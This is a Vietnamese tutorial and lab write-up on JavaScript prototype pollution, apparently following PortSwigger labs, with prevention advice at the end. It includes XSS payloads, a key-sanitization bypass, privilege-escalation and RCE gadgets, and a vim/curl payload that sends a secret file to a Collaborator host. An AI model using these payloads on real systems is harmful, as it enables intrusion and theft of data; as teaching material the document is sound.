# **Prototype pollution**

## **Prototype pollution là gì?**

- Prototype pollution là một lỗ hổng JavaScript cho phép kẻ tấn công chèn thuộc tính tùy ý vào global object prototypes, sau đó có thể được kế thừa bởi các Object do người dùng xác định.



- Mặc dù Prototype pollution không thể khai thác được như một lỗ hổng độc lập, nhưng nó cho phép kẻ tấn công kiểm soát các thuộc tính của các Object không thể truy cập được. Nếu sau đó ứng dụng xử lý thuộc tính do kẻ tấn công kiểm soát theo cách không an toàn, thì điều này có khả năng bị xâu chuỗi với các lỗ hổng khác.

### JavaScript prototypes and inheritance

- `Object trong JavaScript`:

  - Object bao gồm `key:value`

    ```javascript
    const user =  {
    username: "wiener",
    userId: 01234,
    isAdmin: false
    }
    ```

  - Cũng như dữ liệu, các thuộc tính cũng có thể chứa các hàm thực thi. Trong trường hợp này, hàm được gọi là "phương thức".

    ```javascript
    const user =  {
      username: "wiener",
      userId: 01234,
      exampleMethod: function(){
          // do something
      }
    }
    ```

- `Prototype trong JavaScript`:
  - Mọi Object trong JavaScript được liên kết với một Object khác thuộc loại nào đó, được gọi là prototype của nó.
  - Theo mặc định, JavaScript sẽ tự động gán cho các Object mới một trong các prototype tích hợp sẵn của nó. Ví dụ: các chuỗi được tự động gán `String.prototype` tích hợp sẵn.
  - Bạn có thể xem thêm một số ví dụ về các gloabl prototype này bên dưới:

    ```javascript
    let myObject = {};
    Object.getPrototypeOf(myObject);    // Object.prototype

    let myString = "";
    Object.getPrototypeOf(myString);    // String.prototype

    let myArray = [];
    Object.getPrototypeOf(myArray);     // Array.prototype

    let myNumber = 1;
    Object.getPrototypeOf(myNumber);    // Number.prototype
    ```

    - Các Object tự động kế thừa tất cả các thuộc tính của Prototype được chỉ định của chúng, trừ khi chúng đã có thuộc tính riêng với cùng một khóa để overide. Điều này cho phép các nhà phát triển tạo các Object mới có thể sử dụng lại các thuộc tính và phương thức của các Object hiện có.

    - Các Prototype dựng sẵn cung cấp các thuộc tính và phương thức hữu ích để làm việc với các kiểu dữ liệu cơ bản.
      - Ví dụ: Object String.prototype có phương thức toLowerCase(). Kết quả là tất cả các chuỗi đều có một phương thức sẵn sàng để chuyển đổi chúng thành chữ thường.
      - Điều này giúp các nhà phát triển tiết kiệm được việc phải thêm hành vi này theo cách thủ công vào từng chuỗi mới mà họ tạo.

- `Object inheritance (Kế thừa) trong JavaScript`

  - Bất cứ khi nào bạn tham chiếu một thuộc tính của một Object, trước tiên, JavaScript sẽ cố gắng truy cập thuộc tính này trực tiếp trên chính Object đó.
  - Nếu Object không có thuộc tính phù hợp, JavaScript sẽ tìm thuộc tính đó trên Prototype của Object.
  - Với các Object sau, điều này cho phép bạn tham chiếu myObject.propertyA,

    

- `The prototype chain`
  - Prototype của một Object là một Object khác, Object này cũng phải có Prototype riêng, v.v.
  - Vì hầu như mọi thứ trong JavaScript đều là một Object ngầm, chuỗi này cuối cùng sẽ dẫn trở lại Object.prototype cấp cao nhất, Prototype của nó chỉ đơn giản là null.

    

- `Accessing an object's prototype using __proto__`

  - Mỗi Object có một thuộc tính đặc biệt mà bạn có thể sử dụng để truy cập Prototype của nó.
  - Mặc dù điều này không có tên được chuẩn hóa chính thức, nhưng `__ proto __` là tiêu chuẩn thực tế được sử dụng bởi hầu hết các trình duyệt.
  - Nếu bạn đã quen thuộc với các ngôn ngữ hướng đối tượng, thì thuộc tính này đóng vai trò vừa là trình thu thập vừa là trình thiết lập cho Prototype của Object.
  - Điều này có nghĩa là bạn có thể sử dụng nó để đọc Prototype và các thuộc tính của nó, thậm chí gán lại chúng nếu cần.

    ```javascript
    username.__proto__
    username['__proto__']
    username.__proto__                        // String.prototype
    username.__proto__.__proto__              // Object.prototype
    username.__proto__.__proto__.__proto__    // null
    ```

- `Modifying prototypes`
  - Chúng ta có thể tùy chỉnh hoặc ghi đè hành vi của các phương thức tích hợp sẵn và thậm chí thêm các phương thức mới để thực hiện các thao tác hữu ích.

## **Prototype pollution vulnerabilities**

### Prototype pollution sources

> `Prototype pollution via the URL`

- Hãy xem xét URL sau, chứa chuỗi truy vấn do kẻ tấn công tạo ra:

```
https://vulnerable-website.com/?__proto__[evilProperty]=payload
```

- Bạn có thể nghĩ rằng thuộc tính `__proto__` cùng với thuộc tính evil lồng nhau của nó, sẽ chỉ được thêm vào Object đích như sau:

```
{
    existingProperty1: 'foo',
    existingProperty2: 'bar',
    __proto__: {
        evilProperty: 'payload'
    }
}
```

- Trong quá trình kế thừa, JavaScript coi `__proto__` là công cụ nhận cho prototype.

>  `Prototype pollution via JSON input`

- Các Object do người dùng kiểm soát thường được lấy từ một chuỗi JSON bằng phương thức JSON.parse().
- JSON.parse() cũng coi bất kỳ key nào trong Object JSON là một chuỗi tùy ý, bao gồm những thứ như `__proto__`. Điều này cung cấp một vectơ tiềm năng khác cho Prototype pollution.

```javascript
{
    "__proto__": {
        "evilProperty": "payload"
    }
}
```

- Nếu điều này được chuyển đổi thành một Object JavaScript thông qua phương thức JSON.parse(), thì trên thực tế, Object kết quả sẽ có một thuộc tính với khóa `__proto__`:

```javascript
const objectLiteral = {__proto__: {evilProperty: 'payload'}};
const objectFromJson = JSON.parse('{"__proto__": {"evilProperty": "payload"}}');

objectLiteral.hasOwnProperty('__proto__');     // false
objectFromJson.hasOwnProperty('__proto__');    // true
```

## **Client-side prototype pollution vulnerabilities**

### Finding client-side prototype pollution sources manually

- Tìm các nguồn prototype pollution theo cách thủ công phần lớn là cách thử sai. Nói tóm lại, bạn cần thử nhiều cách khác nhau để thêm một thuộc tính tùy ý vào Object.prototype cho đến khi tìm được nguồn phù hợp.

    1. Cố gắng thêm một thuộc tính tùy ý thông qua chuỗi truy vấn, đoạn URL và bất kỳ input JSON nào. Ví dụ: `vulnerable-website.com/?__proto__[foo]=bar`
    2. Trong browser console của bạn, hãy kiểm tra Object.prototype để xem bạn đã làm ô nhiễm thành công nó với thuộc tính tùy ý của mình chưa:

    ```javascript
    Object.prototype.foo
    // "bar" indicates that you have successfully polluted the prototype
    // undefined indicates that the attack was not successful
    ```

    3. Nếu thuộc tính không được thêm vào prototype, hãy thử sử dụng các kỹ thuật khác nhau, chẳng hạn như chuyển sang ký hiệu dấu chấm thay vì ký hiệu dấu ngoặc hoặc ngược lại: `vulnerable-website.com/?__proto__.foo=bar`

>`Lab: DOM XSS via client-side prototype pollution`

- Đối với phòng thí nghiệm này, tôi thực hiện một số phương pháp thủ công đã nêu trên, và nhận thấy rằng có lỗ hổng prototype pollution.
- Tôi thực hiện với URL như sau: `https://0a650042035b1d7f8067857a000300b0.web-security-academy.net/?__proto__[foo]=bar`
- Tôi quan sát và nhận thấy đã có thuộc tính foo trong:



- Tôi thực hiện đọc source của web và có 1 source js như sau:

```javascript
async function logQuery(url, params) {
    try {
        await fetch(url, {method: "post", keepalive: true, body: JSON.stringify(params)});
    } catch(e) {
        console.error("Failed storing query");
    }
}

async function searchLogger() {
    let config = {params: deparam(new URL(location).searchParams.toString())};

    if(config.transport_url) {
        let script = document.createElement('script');
        script.src = config.transport_url;
        document.body.appendChild(script);
    }

    if(config.params && config.params.search) {
        await logQuery('/logger', config.params);
    }
}

window.addEventListener("load", searchLogger);
```

- Vậy phương án đưa ra tấn công ở đây tôi có thể thêm thuộc tính `transport_url` vào `Object.prototype` để thành công thực hiện cuộc tấn công XSS.



### Prototype pollution via the constructor

- Khi một prototype được đặt thành null, mọi Object JavaScript đều có thuộc tính constructor function, thuộc tính này chứa tham chiếu đến constructor function được sử dụng để tạo ra nó.
- Ví dụ: bạn có thể tạo một Object mới bằng cách sử dụng cú pháp thủ công hoặc bằng cách gọi rõ ràng constructor function Object() như sau:

```javascript
let myObjectLiteral = {};
let myObject = new Object();
myObjectLiteral.constructor            // function Object(){...}
myObject.constructor                   // function Objec
myObject.constructor.prototype        // Object.prototype
myString.constructor.prototype        // String.prototype
myArray.constructor.prototype         // Array.prototype
```


>`Bypassing flawed key sanitization (Lab: Client-side prototype pollution via flawed sanitization)`

- Một cách rõ ràng mà các trang web cố gắng ngăn ngừa prototype pollution là làm sạch các key thuộc tính trước khi hợp nhất chúng vào một đối tượng hiện có.
- Tuy nhiên, một lỗi phổ biến là không làm sạch chuỗi input theo cách đệ quy.
- Ví dụ: hãy xem xét URL sau: `vulnerable-website.com/?__pro__proto__to__.gadget=payload`
- Đối với bài lab trên tôi thử nghiệm một số injection prototype pollution và điều ngạc nhiên tôi có thể bypass và thêm thuộc tính vào `Object.prototype` như sau:



- Để thực hiện bypass tìm vị trí tấn công tôi đã đọc source sau:

```javascript
async function logQuery(url, params) {
    try {
        await fetch(url, {method: "post", keepalive: true, body: JSON.stringify(params)});
    } catch(e) {
        console.error("Failed storing query");
    }
}

async function searchLogger() {
    let config = {params: deparam(new URL(location).searchParams.toString())};
    if(config.transport_url) {
        let script = document.createElement('script');
        script.src = config.transport_url;
        document.body.appendChild(script);
    }
    if(config.params && config.params.search) {
        await logQuery('/logger', config.params);
    }
}

function sanitizeKey(key) {
    let badProperties = ['constructor','__proto__','prototype'];
    for(let badProperty of badProperties) {
        key = key.replaceAll(badProperty, '');
    }
    return key;
}
// cách để bypass
window.addEventListener("load", searchLogger);
```

- Từ đấy, tôi thực hiện tấn công XSS kèm theo lỗ hổng prototype pollution như sau:



### Prototype pollution in external libraries

- Các tiện ích gây Prototype pollution có thể xuất hiện trong các thư viện của bên thứ ba được ứng dụng nhập vào.
- Trong trường hợp này, chúng tôi thực sự khuyên bạn nên sử dụng các tính năng gây Prototype pollution của DOM Invader để xác định các nguồn và tiện ích.

### Prototype pollution via browser APIs

- `Prototype pollution via fetch()`:

    ```javascript
    fetch('https://normal-website.com/my-account/change-email', {
      method: 'POST',
      body: 'user=carlos&email=carlos%40ginandjuice.shop'
    })
    ```

  - Như bạn có thể thấy, chúng ta đã xác định rõ ràng các thuộc tính phương thức và body, nhưng có một số thuộc tính khả thi khác mà vẫn chưa xác định.
  - Trong trường hợp này, nếu kẻ tấn công có thể tìm thấy một nguồn phù hợp, thì họ có khả năng gây ô nhiễm Object.prototype bằng thuộc tính tiêu đề của chính chúng.
  - Điều này sau đó có thể được kế thừa bởi đối tượng tùy chọn được truyền vào hàm fetch() và sau đó được sử dụng để tạo yêu cầu.

    ```javascript
    fetch('/my-products.json',{method:"GET"})
      .then((response) => response.json())
      .then((data) => {
          let username = data['x-username'];
          let message = document.querySelector('.message');
          if(username) {
              message.innerHTML = `My products. Logged in as <b>${username}</b>`;
          }
          let productList = document.querySelector('ul.products');
          for(let product of data) {
              let product = document.createElement('li');
              product.append(product.name);
              productList.append(product);
          }
      })
      .catch(console.error);
    ```

    - Để khai thác điều này, kẻ tấn công có thể làm ô nhiễm Object.prototype bằng thuộc tính headers chứa tiêu đề x-username độc hại như sau: `?__proto__[headers][x-username]=`

> `Prototype pollution via Object.defineProperty()`

  - Các nhà phát triển có một số kiến thức về Prototype pollution có thể cố gắng chặn các tiện ích tiềm ẩn bằng cách sử dụng phương thức `Object.defineProperty()`.
  - Điều này cho phép bạn đặt thuộc tính không thể cấu hình, không thể ghi trực tiếp trên đối tượng bị ảnh hưởng như sau:

    ```javascript
    Object.defineProperty(vulnerableObject, 'gadgetProperty', {
      configurable: false,
      writable: false
    })
    ```

> `Lab: Client-side prototype pollution via browser APIs`

- Trang web này có lỗ hổng prototype pollution như bài lab trước.



- Chúng ta hãy kiểm tra source sau:

```javascript
async function logQuery(url, params) {
    try {
        await fetch(url, {method: "post", keepalive: true, body: JSON.stringify(params)});
    } catch(e) {
        console.error("Failed storing query");
    }
}

async function searchLogger() {
    let config = {params: deparam(new URL(location).searchParams.toString()), transport_url: false};
    Object.defineProperty(config, 'transport_url', {configurable: false, writable: false});
    if(config.transport_url) {
        let script = document.createElement('script');
        script.src = config.transport_url;
        document.body.appendChild(script);
    }
    if(config.params && config.params.search) {
        await logQuery('/logger', config.params);
    }
}

window.addEventListener("load", searchLogger);
```

  - config: Đối tượng mà chúng ta muốn định nghĩa thuộc tính.
  - 'transport_url': Tên thuộc tính muốn định nghĩa.
  - configurable: false: Xác định rằng thuộc tính không thể được cấu hình lại sau khi đã được định nghĩa. Điều này có nghĩa là không thể sử dụng Object.defineProperty hoặc delete để thay đổi hoặc xóa thuộc tính này.
  - writable: false: Xác định rằng giá trị của thuộc tính không thể được ghi đè. Điều này có nghĩa là giá trị của thuộc tính không thể được thay đổi sau khi đã được gán.

- Nhưng tôi có thể thực hiện tấn công bằng cách như sau: `/?__proto__[value]=data:,alert(1);`

## **Server-side prototype pollution**

- JavaScript ban đầu là ngôn ngữ phía máy khách được thiết kế để chạy trong trình duyệt.
- Tuy nhiên, do sự phát triển của server-side runtimes, chẳng hạn như Node.js cực kỳ phổ biến, JavaScript hiện được sử dụng rộng rãi để xây dựng máy chủ, API và các ứng dụng back-end khác.
- Về mặt logic, điều này có nghĩa là các lỗ hổng prototype pollution cũng có thể phát sinh trong ngữ cảnh phía máy chủ.

### **Tại sao prototype pollution phía máy chủ khó phát hiện hơn?**

- `No source code access:` Không giống như các lỗ hổng phía máy khách, thông thường bạn sẽ không có quyền truy cập vào JavaScript dễ bị tấn công. Điều này có nghĩa là không có cách nào dễ dàng để có được cái nhìn tổng quan phát hiện các thuộc tính tiện ích tiềm năng.

- `Lack of developer tools:` Vì JavaScript đang chạy trên một hệ thống từ xprototype pollutiona, nên bạn không có khả năng kiểm tra các đối tượng trong thời gian chạy như khi sử dụng DevTools của trình duyệt để kiểm tra DOM. Điều này có nghĩa là khó có thể biết khi nào bạn đã làm prototype pollution thành công, trừ khi bạn đã gây ra một thay đổi đáng chú ý trong hành vi của trang web.

- `The DoS problem:` Gây prototype pollution thành công các đối tượng trong môi trường phía máy chủ bằng cách sử dụng các thuộc tính thực thường làm hỏng chức năng của ứng dụng hoặc làm hỏng hoàn toàn máy chủ.
  - Vì vậy rất dễ vô tình gây ra tấn công từ chối dịch vụ (DoS), thử nghiệm trong sản xuất có thể nguy hiểm.
  - Ngay cả khi bạn xác định được một lỗ hổng, việc phát triển lỗ hổng này thành một khai thác cũng rất khó khăn, khi về cơ bản bạn đã phá vỡ trang web trong quá trình này.

- `Pollution persistence:` Khi thử nghiệm trong trình duyệt, bạn có thể đảo ngược tất cả các thay đổi của mình và lấy lại môi trường trong sạch bằng cách làm mới trang. Khi bạn làm prototype pollution phía máy chủ, thay đổi này sẽ tồn tại trong toàn bộ thời gian tồn tại của quy trình Node và bạn không có cách nào để đặt lại nó.

### **Detecting server-side prototype pollution via polluted property reflection**

- Giả sử có source code như sau:

```javascript
const myObject = { a: 1, b: 2 };

// pollute the prototype with an arbitrary property
Object.prototype.foo = 'bar';

// confirm myObject doesn't have its own foo property
myObject.hasOwnProperty('foo'); // false

// list names of properties of myObject
for(const propertyKey in myObject){
    console.log(propertyKey);
}

// Output: a, b, foo
```

- Nếu ứng dụng sau đó bao gồm các thuộc tính được trả về trong phản hồi, điều này có thể cung cấp một cách đơn giản để thăm dò polluted property phía máy chủ.

```javascript
POST /user/update HTTP/1.1
Host: vulnerable-website.com
...
{
    "user":"wiener",
    "firstName":"Peter",
    "lastName":"Wiener",
    "__proto__":{
        "foo":"bar"
    }
}
HTTP/1.1 200 OK
...
{
    "username":"wiener",
    "firstName":"Peter",
    "lastName":"Wiener",
    "foo":"bar"
}
```

>`Lab: Privilege escalation via server-side prototype pollution`

- Phòng thí nghiệm này được xây dựng trên Node.js và Express framework.
- Nó dễ bị prototype pollution phía máy chủ vì nó hợp nhất input do người dùng kiểm soát vào một đối tượng JavaScript phía máy chủ một cách không an toàn.
- Điều này rất dễ phát hiện vì bất kỳ thuộc tính bị ô nhiễm nào được kế thừa qua chuỗi ban đầu đều có thể nhìn thấy trong phản hồi HTTP.



- Sau khi tôi đăng nhập vào tài khoản `wiener:peter` và tôi thực hiện change-address. Tôi nhận thấy nó thực hiện cập nhật địa chỉ file json và phản hồi lại json.
- Tôi đã thử thực hiện tấn công prototype pollution như sau:



- Và nó đã thành công, bước tiếp theo tôi sẽ nâng cao đặc quyền bằng cách `isAdmin=true`



### **Detecting server-side prototype pollution without polluted property reflection**

- Một cách tiếp cận là thử thêm các thuộc tính phù hợp với các tùy chọn cấu hình tiềm năng cho máy chủ.
- Sau đó, bạn có thể so sánh hành vi của máy chủ trước và sau khi chèn để xem liệu thay đổi cấu hình này có hiệu lực hay không.
- Nếu có, đây là dấu hiệu rõ ràng cho thấy bạn đã tìm thấy thành công lỗ hổng gây prototype pollution phía máy chủ.

> `Status code override`

- Các JavaScript framework phía máy chủ như Express cho phép các nhà phát triển đặt trạng thái phản hồi HTTP tùy chỉnh.
- Trong trường hợp có lỗi, máy chủ JavaScript có thể đưa ra phản hồi HTTP chung, nhưng bao gồm một đối tượng lỗi ở định dạng JSON trong phần nội dung.
- Đây là một cách cung cấp thêm chi tiết về lý do xảy ra lỗi, điều này có thể không rõ ràng từ trạng thái HTTP mặc định.

```javascript
HTTP/1.1 200 OK
...
{
    "error": {
        "success": false,
        "status": 401,
        "message": "You do not have permission to access this resource."
    }
}
```

```javascript
function createError () {
    //...
    if (type === 'object' && arg instanceof Error) {
        err = arg
        status = err.status || err.statusCode || status
    } else if (type === 'number' && i === 0) {
    //...
    if (typeof status !== 'number' ||
    (!statuses.message[status] && (status > 400 || status >= 600))) {
        status = 500
    }
    //...
```

  1. Tìm cách kích hoạt phản hồi lỗi và ghi lại mã trạng thái mặc định.
  2. Hãy thử làm polluted property bằng thuộc tính trạng thái của riêng bạn. Đảm bảo sử dụng mã trạng thái khó hiểu không thể được cấp vì bất kỳ lý do nào khác.
  3. Kích hoạt lại phản hồi lỗi và kiểm tra xem bạn đã ghi đè thành công mã trạng thái chưa.

> `Charset override (Ghi đè kí tự)`

- Express servers thường triển khai cái gọi là mô-đun "middleware", cho phép tiền xử lý các request trước khi chúng được chuyển đến chức năng xử lý thích hợp.
- Ví dụ: body-parser module thường được sử dụng để phân tích cú pháp body của các request đến nhằm tạo đối tượng req.body.
- Điều này chứa một tiện ích khác mà bạn có thể sử dụng để thăm dò prototype pollution phía máy chủ.

```javascript
var charset = getCharset(req) || 'utf-8'

function getCharset (req) {
    try {
        return (contentType.parse(req).parameters.charset || '').toLowerCase()
    } catch (e) {
        return undefined
    }
}

read(req, res, next, parse, debug, {
    encoding: charset,
    inflate: inflate,
    limit: limit,
    verify: verify
})
```

- Đoạn mã trên là một đoạn mã JavaScript có chức năng xử lý yêu cầu HTTP và đọc dữ liệu từ request và gửi response.

- Giải thích từng phần:

1. `var charset = getCharset(req) || 'utf-8'`: Gán giá trị của biến `charset` bằng kết quả trả về từ hàm `getCharset(req)`. Nếu kết quả trả về là falsy (null, undefined, false, 0, '', NaN), thì giá trị mặc định là `'utf-8'` sẽ được gán cho biến `charset`.

2. `function getCharset(req) { ... }`: Đây là một hàm có tên `getCharset` nhận một tham số `req`.
  - Hàm này thực hiện các bước để lấy giá trị của thuộc tính `charset` từ đối tượng yêu cầu `req`.
  - Nếu không tìm thấy giá trị `charset`, hàm sẽ trả về `undefined`.

3. `read(req, res, next, parse, debug, { ... })`: Đây có thể là một lời gọi đến một hàm `read` với các tham số truyền vào là `req`, `res`, `next`, `parse`, `debug` và một đối tượng cấu hình.
  - Đoạn mã này có thể liên quan đến việc đọc dữ liệu từ yêu cầu và xử lý nó.
  - `encoding: charset`: Đây là một thuộc tính của đối tượng cấu hình được truyền vào. Giá trị của thuộc tính `encoding` được gán bằng giá trị của biến `charset`.
  - `inflate: inflate`, `limit: limit`, `verify: verify`: Các thuộc tính khác của đối tượng cấu hình, có thể có giá trị tương ứng từ các biến hoặc hằng số khác.

- Tổng quan, đoạn mã trên định nghĩa một biến `charset` dựa trên kết quả trả về từ hàm `getCharset()`. Sau đó, có một lời gọi hàm `read()` với các tham số và đối tượng cấu hình tương ứng.



>`Lab: Detecting server-side prototype pollution without polluted property reflection`

- Ở trang web này sau khi khi tôi đăng nhập tài khoản người dùng và thực hiện thay đổi địa chỉ của tài khoản, tôi thực hiện tấn công prototype pollution.



- Nhưng tôi không thể nhận biết được cuộc tấn công của tôi đã thành công hay chưa. Tôi thử bằng cách sửa sai cú pháp json như sau thì đã phát hiện đã tấn công thành công.



### **Remote code execution via server-side prototype pollution**

> `Identifying a vulnerable request`

  - Có một số khả năng thực thi lệnh chìm trong Node, nhiều trong số đó xảy ra trong mô-đun child_process.
    - Chúng thường được gọi bởi một request xảy ra không đồng bộ với request mà bạn có thể làm prototype pollution ngay từ đầu.
    - Do đó, cách tốt nhất để xác định các request này là làm prototype pollution bằng payload kích hoạt tương tác với Burp Collaborator khi được gọi.

  - Biến môi trường NODE_OPTIONS cho phép bạn xác định một chuỗi đối số dòng lệnh sẽ được sử dụng theo mặc định, bất cứ khi nào bạn bắt đầu quy trình Node mới.
  - Vì đây cũng là một thuộc tính trên đối tượng env, bạn có khả năng kiểm soát điều này thông qua prototype pollution nếu nó không được xác định.

  - Một số chức năng của Node tạo các quy trình con mới chấp nhận thuộc tính shell tùy chọn, cho phép các nhà phát triển đặt một shell cụ thể, chẳng hạn như bash để chạy các lệnh trong đó.
  - Bằng cách kết hợp điều này với thuộc tính NODE_OPTIONS độc hại, bạn có thể làm prototype pollution theo cách gây ra tương tác với Burp Collaborator bất cứ khi nào một quy trình Node mới được tạo:

    ```javascript
    "__proto__": {
      "shell":"node",
      "NODE_OPTIONS":"--inspect=YOUR-COLLABORATOR-ID.oastify.com\"\".oastify\"\".com"
    }
    ```

> `Remote code execution via child_process.fork()`

  - Các phương thức như child_process.spawn() và child_process.fork() cho phép các nhà phát triển tạo các quy trình con mới.
    - Phương thức fork() chấp nhận một đối tượng tùy chọn trong đó một trong các tùy chọn tiềm năng là thuộc tính execArgv.
    - Đây là một mảng các chuỗi chứa các đối số dòng lệnh nên được sử dụng khi sinh ra tiến trình con.
    - Nếu nó không được xác định, điều này cũng có nghĩa là nó có thể được kiểm soát thông qua prototype pollution.

  - Vì tiện ích này cho phép bạn kiểm soát trực tiếp các đối số dòng lệnh, điều này cho phép bạn truy cập vào một số vectơ tấn công không thể thực hiện được khi sử dụng NODE_OPTIONS.
    - Quan tâm là đối số --eval, cho phép bạn chuyển JavaScript tùy ý sẽ được tiến trình con thực thi.
    - Điều này có thể khá mạnh mẽ, thậm chí cho phép bạn tải các mô-đun bổ sung vào môi trường:
​
    ```javascript
    "execArgv": [
      "--eval=require('<module>')"
    ]
    ```

> `Lab: Remote code execution via server-side prototype pollution`

- Ở trang web này tôi thực hiện tấn công prototype pollution và nó đã thành công.



- Tôi đã thử thực hiện RCE như sau:



- Và nhận thấy nó đã hoạt động thành công.



> `Remote code execution via child_process.execSync()`

```javascript
"__proto__": {
    "shell":"vim",
    "input":":! cat /home/carlos/secret | base64 | curl -d @- https://YOUR-COLLABORATOR-ID.oastify.com\n"
}
```

## **Preventing prototype pollution vulnerabilities**

- `Sanitizing property keys:`
  - Một trong những cách rõ ràng để ngăn chặn các lỗ hổng Prototype pollution là làm sạch các khóa thuộc tính trước khi hợp nhất chúng vào các đối tượng hiện có. Bằng cách này, bạn có thể ngăn kẻ tấn công chèn các khóa `__proto__` tham chiếu prototype của đối tượng.
  - Sử dụng danh sách cho phép các khóa được phép là cách hiệu quả nhất để thực hiện việc này. Tuy nhiên, vì điều này không khả thi trong nhiều trường hợp, nên thay vào đó, người ta thường sử dụng danh sách chặn, xóa mọi chuỗi nguy hiểm tiềm ẩn khỏi input của người dùng.

- `Preventing changes to prototype objects:`
  - Một cách tiếp cận mạnh mẽ hơn để ngăn chặn các lỗ hổng Prototype pollution là ngăn không cho các đối tượng prototype bị thay đổi.
  - Gọi phương thức Object.freeze() trên một đối tượng, đảm bảo rằng các thuộc tính và giá trị của chúng không thể sửa đổi được nữa và không thể thêm thuộc tính mới nào. Vì các prototype chỉ là các đối tượng, bạn có thể sử dụng phương pháp này để chủ động cắt bỏ mọi nguồn tiềm năng.
  - Phương thức Object.seal() cũng tương tự, nhưng vẫn cho phép thay đổi giá trị của các thuộc tính hiện có. Đây có thể là một thỏa hiệp tốt nếu bạn không thể sử dụng Object.freeze() vì bất kỳ lý do gì.

- `Preventing an object from inheriting properties:`
  - Theo mặc định, tất cả các đối tượng kế thừa từ Object.prototype global trực tiếp hoặc gián tiếp thông qua Prototype chain. Tuy nhiên, bạn cũng có thể đặt prototype của một đối tượng theo cách thủ công bằng cách tạo nó bằng phương thức Object.create().
  - Điều này không chỉ cho phép bạn chỉ định bất kỳ đối tượng nào bạn thích làm prototype của đối tượng mới, mà bạn còn có thể tạo đối tượng với prototype rỗng, đảm bảo rằng đối tượng đó sẽ không kế thừa bất kỳ thuộc tính nào.

  ```javascript
  let myObject = Object.create(null);
  Object.getPrototypeOf(myObject);    // null
  ```

- `Using safer alternatives where possible:`


